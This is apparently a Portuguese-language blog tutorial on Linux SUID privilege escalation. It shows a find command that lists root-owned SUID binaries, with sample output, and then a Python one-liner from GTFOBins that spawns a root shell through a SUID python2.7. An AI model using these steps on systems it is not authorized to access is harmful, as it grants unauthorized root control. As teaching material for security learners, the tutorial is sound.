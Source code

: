 ```yaml
---
layout: post
title:  "SUID Privilege Escalation"
date:   2020-09-07 17:30:00 -0300
categories: hacking
author: "ReddyyZ"
lang: pt-BR
tags: [privilege escalation, linux]
reading_time: 1 minute
---
```


Privilege escalation é um tipo de vulnerabilidade na qual o atacante consegue elevar seus privilégios para root ou algum outro usuário.<br>
Nesse artigo você vai aprender sobre como encontrar e explorar um privilege escalation.

## SUID Privilege Escalation

### O que é o SUID

BIT SUID é um tipo de permissão especial na qual o arquivo pode executar outros comandos como o usuário dono do arquivo.

![BIT SUID](/assets/images/suid.jpg)

Vamos a um exemplo:

O root é dono de um arquivo que executa o comando passado por argumento, este arquivo tem o bit SUID e todos os usuários tem permissão de executa-lo.

Se um usuário comum usar esse script para executar um comando, este comando será executado como root por causa do bit SUID.


### Encontrando arquivos com o bit SUID

Agora que já entendemos como funciona o bit SUID, vamos encontrar os arquivos com o bit SUID e que o dono seja o root.

Para isso usaremos uma ferramenta que já vem com o linux chamada find, vamos ao comando.
```sh
find / -user root -perm /4000 2>/dev/null
```

Explicando o comando:

Especifica o dono do arquivo `-user root`<br>
Procura por arquivos com o bit SUID `-perm /4000`<br>
Esconde os erros `2>/dev/null`

Resultado:

```sh
reddyyz@fsociety~$ find / -user root -perm /4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/chromium/chrome-sandbox
/usr/lib/xorg/Xorg.wrap
/usr/libexec/spice-client-glib-usb-acl-helper
/usr/share/code/chrome-sandbox
/usr/sbin/mount.cifs
/usr/sbin/mount.nfs
/usr/sbin/pppd
/usr/bin/mount
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/python2.7
/usr/bin/fusermount3
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/vncserver-x11
/usr/bin/kismet_cap_linux_wifi
/usr/bin/chfn
/usr/bin/bwrap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/kismet_cap_linux_bluetooth
/usr/bin/ntfs-3g
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/kismet_cap_nrf_mousejack
/usr/bin/Xtightvnc
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin64/vmware-user-suid-wrapper
/home/reddyyz/VMWARE/vmware-tools-distrib/lib/bin32/vmware-user-suid-wrapper
```
Esses são todos os arquivos com permissão SUID que o dono é o root.

### Encontrando e explorando um privilege escalation

Olhando esses arquivos um que chama atenção é o `/usr/bin/python2.7`.<br>
Vamos olhar se existe algum exploit conhecido para o python no [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid), site com várias formas de privilege escalation.

![GTFOBins Python](/assets/images/gtfobins-python.PNG)

E achamos uma forma de escalar nossos privilégios.<br>
Vamos executar o comando `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

```sh
reddyyz@fsociety:~$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
# 
```

E conseguimos escalar nossos privilégios com sucesso!
